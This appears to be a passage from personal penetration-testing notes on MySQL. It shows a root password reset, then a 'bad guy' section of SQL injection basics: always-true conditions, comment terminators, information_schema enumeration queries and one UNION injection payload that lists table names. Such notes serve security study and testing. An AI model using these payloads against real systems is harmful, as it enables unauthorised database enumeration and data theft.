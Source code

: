 ```bash
$ mysql # on another terminal
mysql> UPDATE mysql.user SET password=PASSWORD('new_pass') WHERE user='root';
```

```bash
## Switch back to the mysqld_safe terminal and kill the process using Control + \
$ /etc/init.d/mysql start
```


## 'bad guy' stuff

### External stuff

https://www.exploit-db.com/papers/13045/

### My own stuff

#### char tables

https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md   


#### Always True

```
1=1
a=a
```

#### Escape/stop

```sql
# 
-- 
#--
```

#### MySQL Verison

select version()

#### information Schema

##### Table names

SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables

###### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
``` 
